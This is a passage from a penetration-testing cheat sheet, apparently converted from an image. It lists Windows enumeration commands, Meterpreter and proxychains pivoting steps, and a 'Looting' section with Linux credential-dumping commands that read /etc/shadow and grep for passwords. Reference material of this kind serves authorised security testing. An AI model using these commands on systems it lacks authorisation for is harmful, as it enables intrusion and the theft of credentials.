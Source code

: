 ### 4.2 Windows

```
bash
CopyEdit
# System info
systeminfo

# Users
net user

# Priv esc tools
whoami /priv

```

---

## 5️⃣ Pivoting

**Meterpreter**

```
arduino
CopyEdit
run autoroute -s <subnet>
use auxiliary/server/socks_proxy
set SRVPORT 9050

```

**Proxychains**

```
css
CopyEdit
proxychains nmap -sT -Pn -p- <target>

```

---

## 6️⃣ Looting

### 6.1 Credential Dumping

**Linux**

```
bash
CopyEdit
cat /etc/shadow
grep -R "password" /etc

```
